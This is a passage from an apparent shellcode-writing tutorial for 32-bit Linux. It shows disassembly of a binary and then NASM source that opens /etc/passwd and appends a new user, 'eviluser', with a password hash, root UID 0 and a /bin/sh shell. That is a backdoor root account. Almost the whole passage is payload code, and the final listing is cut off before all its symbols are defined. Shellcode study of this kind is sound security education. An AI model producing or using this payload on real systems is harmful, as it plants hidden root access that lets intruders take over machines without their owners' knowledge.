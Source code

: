 Let's get hex bytes of generated binary file:
~~~
root@ubuntu:~/user-add-shlc# objdump -d ./useradd -M intel

./useradd:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:       b8 05 00 00 00          mov    eax,0x5
 8048085:       bb f6 90 04 08          mov    ebx,0x80490f6  ; static address we need to get rid of
 804808a:       b9 01 04 00 00          mov    ecx,0x401
 804808f:       cd 80                   int    0x80
 8048091:       89 c6                   mov    esi,eax
 8048093:       31 c0                   xor    eax,eax
 8048095:       b8 04 00 00 00          mov    eax,0x4
 804809a:       89 f3                   mov    ebx,esi
 804809c:       b9 b8 90 04 08          mov    ecx,0x80490b8  ; static address we need to get rid of
 80480a1:       ba 3e 00 00 00          mov    edx,0x3e
 80480a6:       cd 80                   int    0x80
 80480a8:       31 c0                   xor    eax,eax
 80480aa:       b8 01 00 00 00          mov    eax,0x1
 80480af:       bb 00 00 00 00          mov    ebx,0x0
 80480b4:       cd 80                   int    0x80
~~~

So, we need to do following things,e.g:
~~~
mov eax,0x5  +--------->   mov al,0x5
mov ebx,0x0  +--------->   xor ebx,ebx
~~~
{% highlight nasm %}
; Adds new user to /etc/passwd with root id
global _start

section .text
_start:
        ; int open(const char *pathname, int flags)
        ; ssize_t write(int fd, const void *buf, size_t count)
        ; write - 4
        ; open - 5

        ; call open
        mov al, 0x5
        mov ebx, filename
        mov cx, 0x401
        int 0x80
        mov esi,eax ; save file descriptor

        ; call write
        xor eax,eax
        mov al,0x4
        mov ebx,esi
        mov ecx,newuser
        mov dl,len
        int 0x80

        ; call exit(0)
        xor eax,eax
        mov al,0x1
        xor ebx,ebx
        int 0x80
section .data
        newuser: db "eviluser:$1$xyz$qpXht651W6vzmblmv2oKj/:0:0::/dev/null:/bin/sh", 0x0a